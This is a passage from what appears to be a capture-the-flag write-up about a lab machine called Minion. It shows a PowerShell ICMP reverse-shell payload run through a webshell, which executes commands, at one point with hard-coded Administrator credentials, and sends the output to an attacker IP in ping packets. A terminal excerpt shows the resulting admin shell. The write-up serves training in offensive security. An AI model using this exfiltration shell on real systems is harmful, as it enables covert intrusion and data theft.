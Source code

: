 I'll copy my `icmp_shell.py` script and make some small changes to the
PowerShell that is run via the webshell. The previous one looked like
this (with added whitespace for readability):



    $cmd="{cmd}"
    $s=1000
    $ip='10.10.14.6'
    $r=[System.Text.Encoding]::ASCII.GetBytes((iex -command $cmd 2>&1|out-string))
    $ping=New-Object System.Net.NetworkInformation.Ping
    $opts=New-Object System.Net.NetworkInformation.PingOptions
    $opts.DontFragment=$true
    $i=0
    while ($i -lt $r.length) {
        $ping.send($ip,5000,$r[$i..($i+$s)],$opts)
        $i=$i+$s
    }



It takes a command and runs it using `iex` (short for
`Invoke-Expression`). I'll update that to:



    $s=1000
    $ip='10.10.14.6'
    $pass="1234test"|ConvertTo-SecureString -AsPlainText -Force
    $cred=New-Object System.Management.Automation.PSCredential("minion\\administrator", $pass)
    $r=[System.Text.Encoding]::ASCII.GetBytes((invoke-command -computername localhost -credential $cred -scriptblock {{ {cmd} }}|out-string))
    $ping=New-Object System.Net.NetworkInformation.Ping
    $opts=New-Object System.Net.NetworkInformation.PingOptions
    $opts.DontFragment=$true
    $i=0
    while ($i -lt $r.length) {
        $ping.send($ip,5000,$r[$i..($i+$s)],$opts)
        $i=$i+$s
    }



This one instead creates a `PSCredential` object with the
Administrator's creds, and then uses `Invoke-Command` to run a command
as Administrator.

With the new shell, commands are executed as administrator:



    oxdf@hacky$ sudo python icmp_shell_admin.py 
    Minion> whoami
    minion\administrator



If I try to run `root.txt` from any random directory, it accuses me of
cheating:
